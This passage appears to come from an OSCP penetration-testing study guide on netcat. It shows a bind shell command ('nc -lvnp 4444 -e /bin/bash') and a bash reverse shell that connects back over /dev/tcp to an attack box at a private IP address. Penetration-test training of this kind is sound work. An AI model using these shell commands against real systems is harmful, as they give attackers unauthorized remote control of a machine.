 **Example 4: Bind Shell for Post-Exploitation**

You have exploited a service and want to maintain access:

On the target machine:

```sh
nc -lvnp 4444 -e /bin/bash
```

On your machine:

```sh
nc <target_ip> 4444
```

By mastering these `netcat` commands and understanding how to use them in various scenarios, you can greatly enhance your efficiency and effectiveness during the OSCP exam. Always remember to follow the ethical guidelines and legal boundaries when using these techniques.

#### Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box. Let’s have a look at a few alternative ways to setup a reverse shell.

## _**Bash reverse shell**_

With can also use Bash to initiate a reverse shell from the target host to the attack box by using the following command:

> bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Advenced Usage (Relay)

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>
